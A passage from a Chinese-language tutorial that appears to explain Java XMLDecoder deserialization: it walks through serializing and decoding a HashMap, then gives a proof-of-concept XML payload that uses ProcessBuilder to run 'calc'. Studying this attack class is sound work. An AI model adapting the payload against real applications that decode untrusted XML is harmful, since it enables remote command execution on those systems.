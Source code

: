 得到的demo.xml如下，

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java version="1.8.0_151" class="java.beans.XMLDecoder"&gt;
 &lt;object class="java.util.HashMap"&gt;
  &lt;void method="put"&gt;
   &lt;string&gt;arr&lt;/string&gt;
   &lt;array class="java.lang.String" length="3"/&gt;
  &lt;/void&gt;
 &lt;/object&gt;
&lt;/java&gt;
```

这其中，object标签表示对象；void标签表示函数调用、赋值等操作， 里面的method 属性指定方法名称； array标签表示数组， 里面的class属性指定具体类。<br>
我们再来读取一下这个xml文件，

```
import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class DemoIn `{`
    public static void main(String[] args) throws FileNotFoundException `{`
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("demo.xml")));
        Object demo = d.readObject();
        d.close();
    `}`
`}`
```

跟进在调试这段代码的过程中，可以看到以下两个比较有价值的过程点，<br>
一是此处生成一个表达式对象var5，其中会调用HashMap的put将arr给put进去，

[![](https://p2.ssl.qhimg.com/t014f6b168a5849d5d3.png)](https://p2.ssl.qhimg.com/t014f6b168a5849d5d3.png)

最终反序列化恢复成为一个我们最开始构建的对象，

[![](https://p0.ssl.qhimg.com/t01c899a27b5b0ff94e.png)](https://p0.ssl.qhimg.com/t01c899a27b5b0ff94e.png)

我们可以想象，此处的void标签可以表示HashMap对象的put()函数的调用，也应该可以标识其它类的其它函数的调用。

比如，如果我们将demo.xml中的对象由HashMap改为可以执行命令的函数，再赋予适当的参数，就有可能执行恶意功能。<br>
有如下这般xml一个，

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java version="1.8.0_151" class="java.beans.XMLDecoder"&gt;
 &lt;object class="java.lang.ProcessBuilder"&gt;
  &lt;array class="java.lang.String" length="1"&gt;
   &lt;void index="0"&gt;
    &lt;string&gt;calc&lt;/string&gt;
   &lt;/void&gt;
  &lt;/array&gt;
  &lt;void method="start"/&gt;
 &lt;/object&gt;
&lt;/java&gt;
```
